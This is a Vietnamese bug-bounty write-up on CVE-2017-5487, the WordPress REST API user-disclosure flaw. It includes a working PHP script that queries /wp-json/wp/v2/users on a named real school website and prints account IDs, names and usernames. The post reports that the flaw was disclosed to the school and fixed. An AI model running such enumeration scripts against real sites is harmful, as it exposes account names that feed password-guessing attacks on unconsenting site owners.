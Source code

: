 ```yaml
---
title: Tiền thưởng Tiết Lộ Người Dùng WordPress (CVE-2017-5487)
date: 25/03/2022
layout: single
header:
  teaser: /assets/images/wordpress.png
---
```


## Mô Tả

Tiết lộ các tài khoản WordPress thông qua `/wp-json/wp/v2/users/` sử dụng php để dump tên tài khoản, và họ tên đăng bài

Việc tiết lộ thông tin nhạy cảm cho CVE-2017-5487

wp-gồm/rest-api/endpoints/class-wp-rest-users-controller.php trong quá trình triển khai API REST trong WordPress 4.7 trước 4.7.1 không đúng cách hạn chế danh sách tác giả bài đăng, điều này cho phép kẻ tấn công từ xa lấy được thông tin nhạy cảm thông qua yêu cầu wp-json/wp/v2/users.

Mức độ lỗ hổng: 5,3 TRUNG BÌNH

## Hướng dẫn

Thay đổi url trong đoạn code dưới đây

```shell
php file.php
```

[![Language](https://img.shields.io/badge/Lang-php-blue.svg)](https://www.php.net/)

```php
#!usr/bin/php
<?php
header ('Content-type: text/html; charset=UTF-8');


$url= "https://namsaigon.edu.vn/"; # url
$payload="/wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
    echo "*-----------------------------*\n";
foreach($json as $users){
    echo "[*] ID :  |" .$users['id']     ."|\n";
    echo "[*] Name: |" .$users['name']   ."|\n";
    echo "[*] User :|" .$users['slug']   ."|\n";
    echo "\n";
}echo "*-----------------------------*";}
else{echo "[*] No user";}


?>

```

![](https://www8.0zz0.com/2021/07/15/15/128822449.jpg)

## Kết quả

Lỗ hổng đã được xác nhận qua mail của trường và đã được Fix

![](https://www5.0zz0.com/2023/03/15/10/222638956.png)
